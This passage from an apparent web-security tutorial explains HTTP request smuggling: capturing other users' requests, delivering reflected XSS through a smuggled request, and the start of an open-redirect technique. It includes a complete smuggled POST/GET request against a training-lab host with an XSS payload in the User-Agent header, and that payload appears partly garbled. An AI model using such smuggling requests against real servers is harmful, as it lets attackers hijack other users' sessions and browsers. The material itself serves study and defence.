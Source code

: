 _One limitation with this technique is that it will generally only capture data up until the parameter delimiter that is applicable for the smuggled request. For URL-encoded form submissions, this will be the `&` character, meaning that the content that is stored from the victim user's request will end at the first `&`, which might even appear in the query string._

Note also that this **technique is also exploitable with a TE.CL** vulnerability but the request must end with `search=\r\n0\r\n\r\n`. However, independently of the new line characters the values are going to be appended to the search parameter.

### Using HTTP request smuggling to exploit reflected XSS

If the web page is also **vulnerable to Reflected XSS**, you can abuse HTTP Request Smuggling to attack clients of the web. The exploitation of Reflected XSS from HTTP Request Smuggling have some advantages:

* **It requires no interaction with victim users**
* It can be used to **exploit** XSS behavior in parts of the request that **cannot be trivially controlled in a normal reflected XSS attack**, such as HTTP request headers.

If a web is vulnerable to Reflected XSS on the User-Agent header you can use this payload to exploit it:

\`POST / HTTP/1.1  
Host: ac311fa41f0aa1e880b0594d008d009e.web-security-academy.net  
User-Agent: Mozilla/5.0 \(Windows NT 10.0; Win64; x64; rv:75.0\) Gecko/20100101 Firefox/75.0  
Cookie: session=Ro7YknOtbl3bxURHAAxZz84qj3PSMnSY  
Transfer-Encoding: chunked  
Connection: keep-alive  
Content-Length: 213  
Content-Type: application/x-www-form-urlencoded

0

GET /post?postId=2 HTTP/1.1  
Host: ac311fa41f0aa1e880b0594d008d009e.web-security-academy.net  
User-Agent: "&gt;alert\(1\)  
Content-Length: 10  
Content-Type: application/x-www-form-urlencoded

A=\`

### Using HTTP request smuggling to turn an on-site redirect into an open redirect <a id="using-http-request-smuggling-to-turn-an-on-site-redirect-into-an-open-redirect"></a>

Many applications perform on-site redirects from one URL to another and place the hostname from the request's `Host` header into the redirect URL. An example of this is the default behavior of Apache and IIS web servers, where a request for a folder without a trailing slash receives a redirect to the same folder including the trailing slash:

\`GET /home HTTP/1.1  
Host: normal-website.com

HTTP/1.1 301 Moved Permanently  
Location: [https://normal-website.com/home/\`](https://normal-website.com/home/`)
